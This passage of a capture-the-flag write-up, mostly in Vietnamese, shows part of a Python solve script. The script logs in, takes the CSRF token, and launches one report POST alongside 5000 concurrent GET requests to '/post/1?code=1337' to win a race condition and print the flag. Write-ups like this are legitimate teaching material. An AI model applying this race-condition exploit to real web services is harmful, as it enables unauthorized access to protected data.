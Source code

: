 ```python=
    if response.status_code == 200:
        find_and_print_flag(response.text) 

if __name__ == "__main__":
    print("🔄 Starting script...")
    s = requests.Session()
    register_user(s, TEST_USERNAME, TEST_PASSWORD)
    login_user(s, TEST_USERNAME, TEST_PASSWORD)
    csrf_token_cookie_value = s.cookies.get("csrf_token")
    print(f"🔑 CSRF token (cookie): {csrf_token_cookie_value}")
    csrf_token_for_header = urllib.parse.quote(str(csrf_token_cookie_value))
    print(f"🔑 CSRF token (header): {csrf_token_for_header}")
    post_thread = threading.Thread(target=send_report_post_request, args=(s, csrf_token_for_header))
    get_threads = []
    for i in range(NUM_GET_REQUESTS):
        thread = threading.Thread(target=send_access_get_request, args=(s, i + 1))
        get_threads.append(thread)    
    
    all_threads = [post_thread] + get_threads 
    
    for thread_idx, thread_obj in enumerate(all_threads):
        if stop_event.is_set():
            break 
        thread_obj.start()
    
    for thread_obj in all_threads:
        if thread_obj.is_alive():
            thread_obj.join()
``` 

ý nghĩa của script này:
- register
- login 
- sau đó, chạy các thread với nhau bao gồm 1 thread tới post report và 5000 thread còn lại tới `/post/1?code=1337`

![image](https://hackmd.io/_uploads/H1iTnZu5lx.png)










